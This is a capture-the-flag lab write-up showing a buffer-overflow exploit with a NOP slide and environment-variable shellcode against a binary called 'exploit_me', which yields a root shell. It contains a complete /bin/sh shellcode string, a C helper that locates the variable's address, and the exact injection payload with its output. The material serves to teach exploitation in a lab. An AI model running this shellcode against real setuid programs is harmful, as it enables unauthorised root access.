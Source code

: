 # NOPSlide to Shellcode execution

Branching off from [Writeup 1, part 6](../../writeup1/part6.md), instead of using a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3) we could use a [shellcode injection](https://en.wikipedia.org/wiki/Shellcode) from the same buffer overflow. For this to happen, we'll need to do few things, first creating the **SHELLCODE**.

```shell
  $> export SHELLCODE=$'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'
```

> This shellcode was found [here](https://0xrick.github.io/binary-exploitation/bof5/) but more working ones can be found on [shell-storm](http://shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/).

Then, we'll need to find where this environment variable is stored in memory. For that nothing really difficult...

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
  printf("env address at %p\n", getenv(argv[1]));
  return (0);
}
```

> Simply prints the address of the env variable you gives as first parameter.

Now we retrieve the `SHELLCODE` address, convert it to little-endian and inject it in `exploit_me`.

```shell
  $> gcc -o printAddress find_env_variable.c
  $> ./printAddress SHELLCODE
  env address at 0xbffff864
  $> ./exploit_me `python -c 'print("\x90"*140 + "\xbf\xff\xf8\x64"[::-1])'`
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> `\x90` is the OPCode for the [NOP](https://en.wikipedia.org/wiki/NOP_(code)#:~:text=In%20computer%20science%2C%20a%20NOP,protocol%20command%20that%20does%20nothing.) assembly instruction. It does literally nothing, simply telling to go to the next instruction. Chaining `NOP` up until some arbitrary address is called a [NOPSlide](https://en.wikipedia.org/wiki/NOP_slide).

One more time, we are root!

